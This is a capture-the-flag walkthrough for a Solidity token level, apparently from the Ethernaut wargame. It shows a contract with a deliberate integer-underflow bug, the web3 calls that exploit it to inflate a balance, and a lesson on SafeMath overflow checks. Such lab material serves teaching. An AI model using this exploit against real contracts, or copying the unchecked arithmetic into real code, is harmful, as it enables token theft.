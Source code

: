 # Token
_difficulty 3/10_

The goal of this level is for you to hack the basic token contract below.  
You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.  
Things that might help:  
- What is an odometer?

## Sources
```javascript
pragma solidity ^0.4.18;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  function Token(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

## Level author
Alejandro Santander  
palebluedot@gmail.com  
https://github.com/ajsantander  

## Solution

1. Check our current balance.  
`web3.toDecimal(await contract.balanceOf(player))`  
20  

2. Token contract doesn't check for overflow errors. We will defeat the contract by overflowing our balance. Transfer 21 tokens to address 0.  
`await contract.transfer(0, 21)`  

3. Check our new balance.  
`web3.toDecimal(await contract.balanceOf(player))`  
1.157920892373162e+77  

4. Submit instance 🎉   

## Lesson

Overflows are very common in solidity and must be checked for with control statements such as:  
```javascript
if(a + c > a) {
  a = a + c;
}
```
An easier alternative is to use OpenZeppelin's SafeMath library that automatically checks for overflows in all the mathematical operators. The resulting code looks like this:  
```javascript
a = a.add(c);
```
If there is an overflow, the code will revert.  

